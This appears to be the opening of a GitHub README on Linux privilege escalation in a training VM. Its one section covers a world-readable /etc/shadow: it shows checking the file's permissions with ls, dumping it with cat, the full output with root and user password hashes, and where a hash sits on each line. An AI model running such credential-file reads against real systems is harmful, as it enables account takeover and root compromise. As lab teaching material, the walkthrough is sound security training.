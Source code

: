 # Linux-Privilege-Escalation


# 🔥01: Readable /etc/shadow:

#### 👀The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note:  the /etc/shadow file on the VM is world-readable

At first check permission of /etc/shadow file using :

     ls -l /etc/shadow

    -rw-r--rw- 1 root shadow 842 Apr  9 17:28 /etc/shadow

Then , view the contents of the /etc/shadow file uisng :

              cat /etc/shadow
              
              root:$6$LRq2u1SvWmPgF$zCIh5qzquQ31ZcsL0ifM9GKh.pQRwHSKjJQSJI4Tkl5ELRHjqWTzag8upywqk.jT6/niiOIaMF9XW1/BnN55Y/:17298:0:99999:7:::
              daemon:*:17298:0:99999:7:::
              bin:*:17298:0:99999:7:::
              sys:*:17298:0:99999:7:::
              sync:*:17298:0:99999:7:::
              games:*:17298:0:99999:7:::
              man:*:17298:0:99999:7:::
              lp:*:17298:0:99999:7:::
              mail:*:17298:0:99999:7:::
              news:*:17298:0:99999:7:::
              uucp:*:17298:0:99999:7:::
              proxy:*:17298:0:99999:7:::
              www-data:*:17298:0:99999:7:::
              backup:*:17298:0:99999:7:::
              list:*:17298:0:99999:7:::
              irc:*:17298:0:99999:7:::
              gnats:*:17298:0:99999:7:::
              nobody:*:17298:0:99999:7:::
              libuuid:!:17298:0:99999:7:::
              Debian-exim:!:17298:0:99999:7:::
              sshd:*:17298:0:99999:7:::
              user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
              statd:*:17299:0:99999:7:::
              mysql:!:18133:0:99999:7:::




#### 👀Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.
